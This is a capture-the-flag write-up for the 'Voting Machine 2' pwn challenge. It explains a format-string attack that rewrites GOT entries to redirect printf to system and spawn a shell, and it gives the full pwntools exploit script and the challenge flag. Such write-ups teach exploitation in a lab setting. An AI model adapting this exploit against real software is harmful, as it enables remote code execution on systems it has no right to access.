 [../](../../)

# Voting Machine 2

## pwn - Points: 73

> In a world with many uncertainties we need some kind of structure. Democracy is a big part of that, therefore we need voting machines! Well, at least if they are safe...
>
> nc 13.53.125.206 50000
>
> [kamikaze2](kamikaze2)
>
> [libc-2.27.so](libc-2.27.so)

## Solution

The solution is to exploit format strings that are directly passed to `printf`.

With the first format string, the `GOT` address of the `exit` function is replaced with the `main` function, so that it recursively calls itself again what allows us to use multiple format strings.

With the next format string, the `GOT` entry of `printf` is printed out, so that we have the `libc` address of `printf` and can calculate the offset of the `system` function.

With the next format string, the `GOT` entry of `printf` is replaced with the address of `system`, so the invocation of `printf` will now call the `system` function.

At last, simply pass `/bin/sh` which is now passed so `system` and spawns a shell.

```python
from pwn import *


libc = ELF('libc-2.27.so')
e = ELF('kamikaze2')

p = remote('13.53.125.206', 50000)

main = 0x084207fb
format_string = fmtstr_payload(8, {e.got['exit']: main}, numbwritten=2)

print p.recvuntil(': ')
p.sendline('AA' + format_string)

print p.recvuntil(': ')
p.sendline('AA' + p32(e.got['printf']) + '%8$s')
p.recv(6)

printf = u32(p.recv(4))

print hex(printf)

libc_base = printf - libc.symbols['printf']
system = libc_base + libc.symbols['system']

format_string = fmtstr_payload(8, {e.got['printf']: system}, numbwritten=2)

print p.recvuntil(': ')
p.sendline('AA' + format_string)

print p.recvuntil(': ')
p.sendline('/bin/sh')

p.interactive()
```

flag: `watevr{GOT_som3_fl4g_for_you_https://www.youtube.com/watch?v=hYeFcSq7Mxg}`